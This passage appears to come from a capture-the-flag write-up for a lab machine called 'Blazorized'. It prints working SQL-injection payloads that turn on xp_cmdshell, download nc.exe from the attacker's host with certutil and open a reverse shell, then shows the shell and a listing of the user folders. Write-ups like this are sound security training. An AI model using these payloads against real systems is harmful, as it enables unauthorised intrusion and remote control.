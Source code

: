 We receive a notification confirming that the command executed without any errors.

![](/assets/images/writeups/blazorized/sqli-enable-shell.png)

Now lets try to get a reverse shell. We start by hosting the `nc.exe` binary with a Python webserver, start a netcat listener and then executing the following queries:

```
'; EXEC master.dbo.xp_cmdshell 'certutil -f -urlcache http://10.10.14.4:8888/nc.exe %TEMP%\nc.exe'; -- 
'; EXEC master.dbo.xp_cmdshell '%TEMP%\nc.exe 10.10.14.4 4444 -e cmd.exe'; -- 
```

After executing the payload we get a shell as `nu_1055` and can grab the user flag on their desktop.

```console
$ nc -nvlp 4444
Listening on 0.0.0.0 4444
Connection received on 10.10.11.22 50130
Microsoft Windows [Version 10.0.17763.5936]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
blazorized\nu_1055
```

## Root
On the machine we see two additional users (`RSA_4810` and `SSA_6010`).

```console
C:\Users>dir

 Directory of C:\Users

06/20/2024  06:28 AM    <DIR>          .
06/20/2024  06:28 AM    <DIR>          ..
02/02/2024  04:13 PM    <DIR>          Administrator
02/25/2024  02:41 PM    <DIR>          NU_1055
10/06/2021  02:46 PM    <DIR>          Public
02/01/2024  08:36 AM    <DIR>          RSA_4810
06/19/2024  07:39 AM    <DIR>          SSA_6010
```
